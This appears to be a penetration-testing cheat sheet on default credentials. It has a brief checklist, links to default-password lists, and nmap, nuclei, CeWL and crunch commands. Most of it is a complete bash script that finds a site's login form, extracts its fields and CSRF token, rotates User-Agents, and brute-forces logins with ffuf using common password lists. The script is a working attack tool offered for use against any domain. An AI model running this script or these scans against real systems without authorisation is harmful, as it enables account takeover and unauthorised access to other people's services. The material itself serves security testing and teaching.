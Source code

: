# Default Credentials

## Check List

* [ ] Determine whether the application has any user accounts with default passwords.
* [ ] Review whether new user accounts are created with weak or predictable passwords.

## Cheat Sheet

### Vendor Default Credentials

#### Default Creds

{% embed url="https://github.com/many-passwords/many-passwords" %}

{% embed url="https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv" %}

{% embed url="https://many-passwords.github.io/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://haveibeenpwned.com/Passwords" %}

{% embed url="https://cirt.net/passwords" %}

#### [Nmap](https://github.com/nnposter/nndefaccts)

```bash
sudo nmap -p80,443 --mtu 5000 --script http-default-accounts $WEBSITE
```

### Organization Default Passwords

{% embed url="https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials" %}

#### [defaultcreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)

```bash
creds search tomcat
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/tree/main/http/default-logins)

```bash
nuclei -u $WEBSITE -tags default-login
```

### Application Generated Default Passwords

#### [CeWL](https://github.com/digininja/CeWL)

```bash
cewl $WEBSITE --header "Cookie: $COOKIE" -d 5 -m 4
```

#### [Crunch](https://sourceforge.net/projects/crunch-wordlist/)

```bash
crunch 8 12 -t @@company%% -o /tmp/passlist.txt
```

{% hint style="info" %}
`-t` = Password Pattern

`@` = Lowercase Keywords

`,` = Uppercase Keywords

`%` = Digits

`^` = Meta Characters

Example Result: `abcompany12`
{% endhint %}

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano default-bruteforce.sh
```

```bash
#!/bin/bash

# CONFIG
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"
UA_LIST="/usr/share/seclists/Fuzzing/User-Agents/user-agents-whatismybrowserdotcom-mid.txt"

# INPUT CHECK
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"

# FIND LOGIN PAGE
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sort -u | head -n1)

if [ -z "$LOGIN" ]; then
    echo "[!] No login page found. Exiting."
    exit 1
fi

# FETCH HTML
HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA / reCAPTCHA check
CAPTCHA_KEYWORDS="g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"
if echo "$HTML" | grep -qiE "$CAPTCHA_KEYWORDS"; then
    echo "[!] CAPTCHA detected on login page. Brute-force aborted."
    exit 1
fi

# EXTRACT FORM ACTION AND METHOD
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    BASE_URL=$(echo "$LOGIN" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# EXTRACT USERNAME & PASSWORD FIELDS
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF TOKEN EXTRACTION
CSRF_FIELD=""
CSRF_VALUE=""

HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

if [ -z "$CSRF_FIELD" ] && [ -n "$HIDDEN_INPUTS" ]; then
    CSRF_FIELD=$(echo "$HIDDEN_INPUTS" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+' | head -1)
    CSRF_VALUE=$(echo "$HIDDEN_INPUTS" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+' | head -1)
fi

# PREPARE POST DATA
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

# EXTRACT COOKIES
COOKIES=$(curl -s -I "$LOGIN" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I' | tr -d '\r\n')

# HEADERS
HEADERS=(
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
  -H "Accept-Language: en-US,en;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Connection: keep-alive"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Referer: $LOGIN"
)
[ -n "$COOKIES" ] && HEADERS+=(-H "Cookie: $COOKIES")

# RUN FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X GET \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x default-bruteforce.sh;sudo ./default-bruteforce.sh $WEBSITE
```
